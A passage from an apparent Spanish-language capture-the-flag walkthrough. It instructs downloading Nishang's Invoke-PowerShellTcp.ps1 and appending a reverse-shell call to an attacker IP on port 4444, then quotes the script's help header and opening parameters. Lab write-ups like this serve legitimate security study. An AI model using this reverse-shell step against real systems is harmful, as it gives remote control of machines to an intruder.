 ![](/assets/img/Bounty/image_4.png)

Lo que vamos a hacer ahora es descargarnos `Invoke-PowerShellTcp.ps1` de [https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1). Una vez descargado el script vamos a copiar `Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444` que encontramos en la parte de `.EXAMPLE` al final del script con la dirección `IP` de nuestra máquina y con el puerto por el que nos mandará la conexión

```
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 

.DESCRIPTION
This script is able to connect to a standard netcat listening on a port when using the -Reverse switch. 
Also, a standard netcat can connect to this script Bind to a specific port.

The script is derived from Powerfun written by Ben Turner & Dave Hardy

.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.

.PARAMETER Port
The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444

Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port. 

.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell over IPv6. A netcat/powercat listener must be
listening on the given IP and port. 

.LINK
http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html
https://github.com/nettitude/powershell/blob/master/powerfun.ps1
https://github.com/samratashok/nishang
#>      
    [CmdletBinding(DefaultParameterSetName="reverse")] Param(

        [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
        [Parameter(Position = 0, Mandatory = $false, ParameterSetName="bind")]
        [String]
        $IPAddress,

```